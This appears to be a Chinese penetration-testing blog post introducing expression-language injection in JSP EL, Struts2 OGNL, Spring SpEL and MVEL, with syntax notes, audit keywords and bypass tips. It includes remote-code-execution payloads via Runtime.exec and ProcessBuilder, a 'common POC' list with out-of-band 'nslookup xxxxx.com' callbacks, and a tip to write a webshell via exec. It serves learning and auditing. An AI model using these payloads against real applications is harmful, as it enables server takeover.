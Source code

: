 ```yaml
---
title: 表达式注入初探
comments: true
date: 2022-01-20 16:32:58
tags: ["表达式注入"]
categories:
- 渗透测试
cover: http://image.xpshuai.cn/img/image-20220120172956738.png
top_img:
description:
---
```


## 简介

2013年4月15日Expression Language Injection词条在OWASP上被创建，而这个词的最早出现可以追溯到2012年12月的《Remote-Code-with-Expression-Language-Injection》一文，在这个paper中第一次提到了这个名词。









## 常用的表达式语言



### JSP—JSTL_EL

#### 基础

EL表达式(表达式语言)是一种**在JSP中内置的语言**(也就是说所有的Java Web服务都必然会支持这种表达式。但是由于各家对其实现的不同，也导致某些漏洞可以在一些Java Web服务中成功利用，而在有的服务中则是无法利用)，可以用作用户访问页面的上下文以及不同作用域的对象，取得对象属性值或者执行简单的运算和判断操作：获取数据、执行运算、获取Web开发常用对象、调用Java方法。



**JSP四大作用域：**

- page：只在一个页面保存数据[`javax.servlet.jsp.PageCotent`]
- request：只在一个请求中保存数据[`java.servlet.httpServletRequest`]
- session：在一次会话中保存数据，仅供单个用户使用[`javax.servlet.http.HttpSession`]
- application：在整个服务器中保存数据，全部用户共享[`javax.servlet.ServletContenxt`]



**EL基础语法：**

在JSP中，用`${}`表示此处为EL表达式。

在未指定作用域时，依次向后寻找；

在指定了作用域时，在范围内寻找：如`${requestScope.name}`表示在request作用域范围内获取name变量。



**获取对象属性：**

一种方法，为：`${对象.属性}`，如`${param.name}`

另一种为，：`[]`符号，如：`${param[name]}`，当属性名存在特殊字符时需要使用此方式



**EL表达式也可以实例化Java的内置类：**

```jsp
//如 Runtime.calss会执行系统命令

<body>
    ${Runtime.getRuntime().exec("calc")}
</body>

```



```jsp
<spring:message text="${/"/".getClass().forName(/"java.lang.Runtime/").getMethod(/"getRuntime/",null).invoke(null,null).exec(/"calc/",null).toString()}">
</spring:message>
```





简答来说，EL表达式是Java代码的简化版，用户可以通过可控的输入注入一段EL表达式执行代码。但用户难以控制EL表达式进行表达式注入。





#### 渗透思路

获取webroot路径，exec执行命令echo写入一句话。











### Struts2—OGNL



表达式格式：

```bash
@[类全名（包括包路径）]@[方法名 | 值名]，例如：
@java.lang.String@format('foo %s', 'bar')
```



基本用法：

```java
ActionContext AC = ActionContext.getContext();
Map Parameters = (Map)AC.getParameters();
String expression = "${(new java.lang.ProcessBuilder('calc')).start()}";
AC.getValueStack().findValue(expression))
```



相关漏洞：s2-009、s2-012、s2-013、s2-014、s2-015、s2-016，s2-017、。。。



### Spring—SPEL

SPEL（Spring表达式语言），是Spring框架专有的EL表达式

SpEL使用 `#{…} `作为定界符，所有在大括号中的字符都将被认为是 SpEL表达式，我们可以在其中使用运算符，变量以及引用bean，属性和方法



#### **基本用法：**

```jsp
//在jsp页面中可以使用el表达式代替<%=%>，之间访问java对象。

String expression = "T(java.lang.Runtime).getRuntime().exec(/"calc/")";
String result = parser.parseExpression(expression).getValue().toString();
```

1.使用量表达式：

```java
"#{Hello world}"
```

2.使用java代码new/instance of
```java
Expression exp = parsee.parserExpression("new Spring('hello')");

```

3.使用T(type)

表示java.lang.Class实例：

```java
parse.parseExpression(T(Integer).MAX_VALUE)
```

使用T()运算符会调用类作用域的方法和常量。例如，在SpEL中使用Java的Math类，我们可以像下面的示例这样使用T()运算符：

```java
#{T(java.lang.Math)}
```

T()运算符的结果会返回一个java.lang.Math类对象。




#### **代码审计关键字：**

```
org.springframework.expression.spel.standard
SpelExpressionParser
parserExpress
expression.getValue()
expression.setValue()
...
```







#### SpEL漏洞

Spring为SpEL提供了两套不同的接口，分别是：

- SimpleEvaluationContext（更安全一些，推荐使用）
- StandardEvaluationContext：包含了SpEL的所有功能





**漏洞原因：**

开发人员未对用户输入进行处理就直接通过解析引擎对Spel继续解析。一旦用户能够控制解析的SpEL语句，便可以通过反射的方式构造代码执行的SpEL语句，从而达到RCE的目的。



例如：

```java
import org.springframework.expression.EvaluationContext;
import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.expression.spel.support.StandardEvaluationContext;

public class TTTTT {
    public static void main(String []args) throws Exception {
        String expr = "T(Runtime).getRuntime.exec(\"calc.exe\")";

        ExpressionParser  parser = new SpelExpressionParser();
        EvaluationContext evaluationContext = new StandardEvaluationContext();
        Expression expression = parser.parseExpression(expr);
        System.out.println(expression.getValue(evaluationContext));


    }
}

```



![](http://image.xpshuai.cn/img/image-20220120172956738.png)



**常用POC：**

```
${255*255}

T(Thread).sleep(10000)

T(java.lang.Runtime),getRuntime().exec('命令')
T(java.lang.Runtime),getRuntime().exec('nslookup xxxxx.com')

new java.lang.ProcessBuilder("命令").start()
new java.lang.ProcessBuilder("nslookup xxxxx.com").start()

#this.getClass().forName('java.lang.Runtime').getRuntime().exec('nslookup xxxxx.com')
```



需要绕过黑名单校验，对于急于正则的匹配绕过是很简单的：

- 利用反射于拆分关键字构造Payload
- 利用ScriptEngineManner









### Elasticsearch——MVEL



基本用法：

```java
java import org.mvel.MVEL;

public class MVELTest {
    public static void main(String[] args) { String expression = "new java.lang.ProcessBuilder(/"calc/").start();";
    Boolean result = (Boolean) MVEL.eval(expression, vars);
    }
}
```









## 参考文章



[(57条消息) Java 安全-手把手教你SPEL表达式注入_4ct10n-CSDN博客_spel表达式注入](https://blog.csdn.net/qq_31481187/article/details/108025512)

[Spring-data-commons(CVE-2018-1273)漏洞分析 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/172984.html)





